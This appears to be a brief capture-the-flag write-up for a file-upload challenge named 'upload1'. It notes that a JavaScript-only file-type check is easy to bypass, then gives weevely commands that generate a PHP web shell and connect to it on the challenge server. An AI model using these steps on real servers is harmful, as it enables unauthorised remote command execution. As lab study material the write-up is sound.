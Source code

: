 # upload1

![Screenshot from 2021-07-24 23-17-41](https://user-images.githubusercontent.com/87865134/126874658-e619afd5-8bf4-4750-b0db-ff742c98b0db.png)

- **Maybe file upload vulnerability**
- **Test upload file** ***.php***
  - > can't upload file .php 

![Screenshot from 2021-07-24 23-19-21](https://user-images.githubusercontent.com/87865134/126874712-f03d8669-c3a6-4476-b39c-e094644872d7.png)

- **View source code and detect that application use JavaScript to check type of file upload**
  - > Easy to bypass 
 
- **Create shell.php**
  > using ***weevely*** tool: 
  ```
  weevely generate 123456 shell.php
  ```

- **Upload file and use weevely to connect**
  ```
  weevely http://111.200.241.244:52749/upload/1627143863.shell.php  123456
  ```  
  ![Screenshot from 2021-07-24 23-26-32](https://user-images.githubusercontent.com/87865134/126874864-44f65981-046d-4d2b-99b4-e586a3c1a091.png)

### - Description:
> **category**: file upload 
